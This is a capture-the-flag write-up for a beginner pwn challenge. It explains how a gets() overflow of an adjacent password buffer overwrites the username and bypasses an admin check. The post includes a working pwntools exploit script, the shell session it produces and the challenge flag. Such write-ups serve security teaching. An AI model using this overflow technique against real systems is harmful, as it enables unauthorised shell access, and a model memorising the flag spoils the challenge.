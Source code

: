 ```yaml
---
layout: writeup
title: Corporate Cliche
tags: pwn, beginner
---
```


We are given a binary, some C source code and a remote instance to connect to.

Looking at the source code, our goal is to get the `open_admin_session()` function to run and pop a shell.

We have the credentials hard coded into the app:

{% highlight C %}
const char* logins[][2] = {

    {"admin", "🇦🇩🇲🇮🇳"},

    {"guest", "guest"},

};
{% endhighlight %}

Connecting to the program and logging in with the guest account just brings up a useless email. Trying to login with the username `admin` gives us an error.

```
Enter your username: admin
-> Admin login is disabled. Access denied.
```

Looking back at the source code, after you enter a username, it checks to see if it is `admin` and if so it prints an error and exits. 

{% highlight C %}
    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }
{% endhighlight %}

There is a way to bypass this however. If we look at how the `username` and `password` variables are initialised, we can see they are set to a 32 byte buffer, straight after each other in memory

{% highlight C %}
    char password[32];
    char username[32];
{% endhighlight %}

Looking at how the program gets the password, we can see it uses `gets()` which is an insecure function as it allows us to write past the buffer.

{% highlight C %}
    printf("Enter your password: ");
    gets(password);
{% endhighlight %}

This means we overwrite the `username` variable after it checks whether we are trying to login as admin or not. To test this, I connect to the app, type in my username as `guest` and in type `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin` and this bypasses the username check!

```
Enter your username: guest
Enter your password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin
-> Incorrect password for user 'admin'. Access denied.

```

Now all we need to go is make sure the password for admin is entered correctly. The program uses `strcmp()` to check the password which will read a string up to a null terminator (`\x00`).

{% highlight C %}
if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
{% endhighlight %}

We can use pwntools in Python to create a payload to do this easily.

{% highlight python %}
from pwn import *
from pwn import context

context.binary = './email_server'
context.log_level = "debug"

p = remote("chal.2025.ductf.net", 30000)

p.sendlineafter(b"Enter your username: ", b"guest")

password = "🇦🇩🇲🇮🇳".encode("utf-8")
payload = password + b"\x00"

payload += b"A" * (32 - len(payload))

payload += b"admin\x00"

p.sendlineafter(b"Enter your password: ", payload)

p.interactive()
{% endhighlight %}

This script will enter `guest` as the username, bypassing the username check. It will add the admin password to the payload with a null terminator. It will then pad the of the `password` buffer with `A` characters and finally add the username `admin` to the payload (with a null terminator for good practice).

Once the script has created the payload, it will send it as the password. After running this script, we get a message that we have successfully logged in as `admin` and popped a shell!

```
[*] Switching to interactive mode
[DEBUG] Received 0x51 bytes:
    b'-> Password correct. Access granted.\n'
    b'-> Admin login successful. Opening shell...\n'
-> Password correct. Access granted.
-> Admin login successful. Opening shell...
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'flag.txt\n'
    b'get-flag\n'
    b'pwn\n'
flag.txt
get-flag
pwn
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x41 bytes:
    b'DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}\n'
DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}
$
```
